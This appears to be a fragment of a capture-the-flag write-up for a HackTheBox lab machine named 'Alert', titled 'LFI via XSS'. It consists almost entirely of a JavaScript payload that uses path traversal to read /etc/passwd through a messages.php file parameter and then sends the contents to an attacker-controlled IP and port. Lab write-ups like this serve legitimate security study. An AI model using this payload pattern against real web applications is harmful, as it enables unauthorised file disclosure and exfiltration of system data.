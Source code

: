 # LFI via XSS

\
fetch("http://alert.htb/messages.php?file=../../../../etc/passwd")\
&#x20; .then(response => response.text())\
&#x20; .then(data => {\
&#x20;   fetch("http://10.10.xx.xx:8888/?file\_content=" + encodeURIComponent(data));\
&#x20; });
